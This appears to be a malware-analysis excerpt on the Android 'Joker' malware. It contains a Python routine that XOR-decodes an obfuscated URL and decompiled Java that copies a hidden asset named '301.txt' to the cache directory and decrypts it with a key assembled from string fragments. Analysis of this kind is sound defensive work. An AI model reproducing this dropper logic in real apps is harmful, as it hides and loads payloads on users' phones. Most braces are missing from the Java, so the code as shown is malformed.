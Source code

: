 Another obfusicated string

```python
def xor(string1, string2):
    recovered = b""
    for i in range(len(string1)):
        recovered += bytes([string1[i] ^ string2[i % len(string2)]])

    print(recovered)

# https://play.google.com/store/apps/details?id=meet.the.joker
xor(b"0,,(+bww(49!v?77?4=v;75w+,7*=w9((+w<=,914+g1<e5==,v,0=v273=*", b"X") 
```

So, this function makes a get request to `https://play.google.com/store/apps/details?id=meet.the.joker`. Given that the response is 200, the `function a(context, f40a);` is called.

```java
public static void a(Context context, String str) 
    try 
        try  
            Method method = context.getClass().getMethod(c.a.o(new StringBuffer("FAUeRWDPR"), new StringBuffer("!$")), new Class[0]); 
            for (String str2 : ((Resources) context.getClass().getMethod(c.a.o(new StringBuffer("TVGaV@\\FAPV@"), new StringBuffer("3")), new Class[0]).invoke(context, new Object[0])).getAssets().list(str))  
                try 
                    if (str2.endsWith(c.a.o(new StringBuffer("spqn484"), new StringBuffer("@"))))  // 301.txt
                        StringBuffer stringBuffer = new StringBuffer();
                        stringBuffer.append("ma1");
                        stringBuffer.append("7FEC");
                        InputStream open = ((AssetManager) method.invoke(context, new Object[0])).open(f40a + str2);
                        File file = new File(context.getCacheDir(), c.a.u(3));
                        FileOutputStream fileOutputStream = new FileOutputStream(file);
                        byte[] bArr = new byte[1024];
                        while (true) 
                            int read = open.read(bArr);
                            if (-1 == read) {
                                break;
                            } else 
                                fileOutputStream.write(bArr, 0, read);
                            
                        
                        open.close();
                        fileOutputStream.flush();
                        fileOutputStream.close();
                        c.a.f1860a = new String(stringBuffer).concat("2_l").concat("Yuo").concat("NQ").concat("$_To").concat("T99u_e0kINhw_Bzy");
                        c.a.v(context, file.getPath(), c.a.f1860a, new File(context.getCacheDir(), c.a.u(2).concat(".temp")).getPath());
                    
                    Log.e("fileName", str2);
                 catch (Exception e2) 
                    e2.printStackTrace();
                
            
         catch (IllegalAccessException | InvocationTargetException e3) 
            e3.printStackTrace();
        
     catch (IOException | NoSuchMethodException unused) 
    

```
